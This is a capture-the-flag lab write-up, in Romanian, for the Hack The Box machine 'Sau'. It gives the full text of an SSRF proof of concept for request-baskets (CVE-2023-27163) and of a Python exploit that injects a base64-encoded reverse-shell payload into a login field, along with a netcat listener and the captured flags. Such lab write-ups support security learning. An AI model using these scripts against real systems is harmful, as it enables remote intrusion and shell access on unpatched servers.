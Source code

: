 1. Scanam mașina pentru a vedea porturile deschise.
```shell
sudo nmap -sSCV -T 4 10.10.11.224 -oN ~/Hackthebox/Labs/Sau/nmap.scan
```
![[Pasted image 20231107075853.png]]
Vedem următoarea informație sunt deschise 3 porturi [[Tools/Networking tool/ssh]] el e si pe portul 22 [[http request smuggling]] pe 80 si încă ceva pe 5555 la priva vedere este tot un [[http request smuggling]].
2. Accesam [[IP]] cu portul suspect:
![[Pasted image 20231107080107.png]]
3. Cel mai suspect este următoarea informație->
![[Pasted image 20231107131300.png]]
`request-baskets| Version 1.2.1`
Aceasta versiune este vulnerabila pentru tipul de atac [[SSRF]] Server-Side Request Forgery.
Daca facem un search pe google.com vom găsi vulnerabilitatea data.
```bash
#!/bin/bash  
  
echo -e "Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163\n";  
  
if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then  
   help="Usage: CVE-2023-27163.sh <URL> <TARGET>\n\n";  
   help+="This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,\n";  
   help+="which will act as a proxy to other services and servers.\n\n";  
   help+="Arguments:\n" \  
   help+=" URL            main path (/) of the server (eg. http://127.0.0.1:5000/)\n";  
   help+=" TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)\n\n";  
   help+="More info at https://github.com/entr0pie/CVE-2023-27163.";  
  
   echo -e "$help";  
   exit 1;  
fi  
  
URL=$1  
ATTACKER_SERVER=$2  
  
if [ "${URL: -1}" != "/" ]; then  
   URL="$URL/";  
fi;  
  
BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");  
  
API_URL="$URL""api/baskets/$BASKET_NAME";  
  
PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";  
  
echo "> Creating the \"$BASKET_NAME\" proxy basket...";  
  
if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then  
   echo "> FATAL: Could not properly request $API_URL. Is the server online?";  
   exit 1;  
fi;  
  
BASKET_URL="$URL$BASKET_NAME";  
  
echo "> Basket created!";  
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";  
  
if ! jq --help 1>/dev/null; then  
   echo "> Response body (Authorization): $response";  
else  
   echo "> Authorization: $(echo "$response" | jq -r ".token")";  
fi;  
  
exit 0;
```
Jos mai este si fișierul.
![[CVE-2023-27163.sh]]
4. După instrucții facem un start la script
```shell
./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![[Pasted image 20231107132245.png]]
In cazul nostru primul link este victima cu portul 55555 al 2 link este [[IP]] adresa pentru localhost.
Accesăm linkul pentru ca sa vedem ce este pe pagina care este pe portul 80.
![[Pasted image 20231107132422.png]]
5. Pe google cu un seach primim 
![[Pasted image 20231107134026.png]]
 Aici este exploitul. 
```python
 '''  
 ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███     
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒  
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒  
 ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄     
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒  
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░  
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░  
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░    
     ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░        
'''  
  
import sys;  
import os;  
import base64;  
  
def main():  
       listening_IP = None  
       listening_PORT = None  
       target_URL = None  
  
       if len(sys.argv) != 4:  
               print("Error. Needs listening IP, PORT and target URL.")  
               return(-1)  
  
       listening_IP = sys.argv[1]  
       listening_PORT = sys.argv[2]  
       target_URL = sys.argv[3] + "/login"  
       print("Running exploit on " + str(target_URL))  
       curl_cmd(listening_IP, listening_PORT, target_URL)  
  
def curl_cmd(my_ip, my_port, target_url):  
       payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.  
AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno  
(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''  
       encoded_payload = base64.b64encode(payload.encode()).decode()  # enco  
de the payload in Base64  
       command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_pa  
yload}\"+|+base64+-d+|+sh`'"  
       print("comm:",command)  
       os.system(command)  
  
if __name__ == "__main__":  
 main()
```
Fisierul complex
![[exploit.py]]
5. Rulam vulnerabilitatea ca sa primim revers shell-ul nostru:
```bash
python3 exploit.py 10.10.14.25 9001 http://10.10.  
11.224:55555/tgetkl
```
Acum aven nevoie sa ascultam traficul:
```bash
nc -lvnp 9001
```
![[Pasted image 20231107191913.png]]
![[Pasted image 20231107192048.png]]
Flag user: `c28c26065508f8300bfd03bdb7069ffb`
6. Rulam comanda:
```bash
sudo -l 
```
![[Pasted image 20231107192150.png]]
Avem si posibilitatea sa primim root:
![[Pasted image 20231107192249.png]]
Deci avem root:
![[Pasted image 20231107192537.png]]
![[Pasted image 20231107192548.png]]
![[Pasted image 20231107192611.png]]
Si flagul final `21586ecaa63bc52bda009a0627d9aeaa`
